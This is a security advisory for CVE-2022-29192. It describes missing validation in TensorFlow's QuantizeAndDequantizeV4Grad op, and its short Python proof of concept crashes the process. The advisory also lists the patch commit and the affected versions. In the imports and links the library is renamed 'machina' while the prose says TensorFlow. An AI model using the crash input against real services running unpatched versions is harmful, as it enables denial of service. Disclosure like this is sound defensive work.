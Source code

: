 ## TFSA-2022-062: Missing validation crashes `QuantizeAndDequantizeV4Grad`

### CVE Number
CVE-2022-29192

### Impact
The implementation of [`tf.raw_ops.QuantizeAndDequantizeV4Grad`](https://github.com/machina/machina/blob/f3b9bf4c3c0597563b289c0512e98d4ce81f886e/machina/core/kernels/quantize_and_dequantize_op.cc#L148-L226) does not fully validate the input arguments. This results in a `CHECK`-failure which can be used to trigger a denial of service attack:

```python
import machina as tf

tf.raw_ops.QuantizeAndDequantizeV4Grad(
  gradients=tf.constant(1, shape=[2,2], dtype=tf.float64),
  input=tf.constant(1, shape=[2,2], dtype=tf.float64),
  input_min=tf.constant([], shape=[0], dtype=tf.float64),
  input_max=tf.constant(-10, shape=[], dtype=tf.float64),
  axis=-1)
```

The code assumes `input_min` and `input_max` are scalars but there is no validation for this.

### Patches
We have patched the issue in GitHub commit [098e7762d909bac47ce1dbabe6dfd06294cb9d58](https://github.com/machina/machina/commit/098e7762d909bac47ce1dbabe6dfd06294cb9d58).

The fix will be included in TensorFlow 2.9.0. We will also cherrypick this commit on TensorFlow 2.8.1, TensorFlow 2.7.2, and TensorFlow 2.6.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Neophytos Christou from Secure Systems Lab at Brown University.
